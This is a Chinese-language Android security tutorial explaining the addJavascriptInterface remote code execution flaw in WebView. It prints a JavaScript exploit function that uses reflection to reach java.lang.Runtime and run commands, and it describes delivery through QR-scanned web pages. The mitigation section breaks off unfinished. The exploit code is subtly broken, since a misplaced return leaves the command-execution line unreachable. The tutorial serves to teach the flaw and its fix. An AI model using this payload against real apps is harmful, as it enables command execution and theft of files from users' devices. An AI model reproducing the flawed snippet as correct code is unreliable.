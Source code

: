 ##### addJavascriptInterface 接口引起远程代码执行漏洞

a.漏洞产生原因

JS调用Android的其中一个方式是通过addJavascriptInterface接口进行对象映射：

	webView.addJavascriptInterface(new JSObject(), "myObj");
	// 参数1：Android的本地对象
	// 参数2：JS的对象
	// 通过对象映射将Android中的本地对象和JS中的对象进行关联，从而实现JS调用Android的对象和方法

所以，漏洞产生原因是：当JS拿到Android这个对象后，就可以调用这个Android对象中所有的方法，包括系统类（java.lang.Runtime 类），从而进行任意代码执行。

> 如可以执行命令获取本地设备的SD卡中的文件等信息从而造成信息泄露

具体获取系统类的描述：（结合 Java 反射机制）

	Android中的对象有一公共的方法：getClass() ；
	该方法可以获取到当前类 类型Class
	该类有一关键的方法： Class.forName；
	该方法可以加载一个类（可加载 java.lang.Runtime 类）
	而该类是可以执行本地命令的

以下是攻击的Js核心代码：

	function execute(cmdArgs){  
	    // 步骤1：遍历 window 对象
	    // 目的是为了找到包含 getClass （）的对象
	    // 因为Android映射的JS对象也在window中，所以肯定会遍历到
	    for (var obj in window) {  
			if ("getClass" in window[obj]) {  
			
			// 步骤2：利用反射调用forName（）得到Runtime类对象
			    alert(obj);          
			    return  window[obj].getClass().forName("java.lang.Runtime")  
			
			// 步骤3：以后，就可以调用静态方法来执行一些命令，比如访问文件的命令
			getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);  
			
			// 从执行命令后返回的输入流中得到字符串，有很严重暴露隐私的危险。
			// 如执行完访问文件的命令之后，就可以得到文件名的信息了。
	        }  
	    }  
	}

注意：

	当一些 APP 通过扫描二维码打开一个外部网页时，攻击者就可以执行这段 js 代码进行漏洞攻击。
	在微信盛行、扫一扫行为普及的情况下，该漏洞的危险性非常大。


b.解决方案

b1. Google 在Android4.2 版本中规定对被调用的函数以 @JavascriptInterface进行注解从而避免漏洞攻击

b2. Android4.2版本之前

在Android4.2版本之前采用拦截prompt()进行漏洞修复

具体步骤如下：
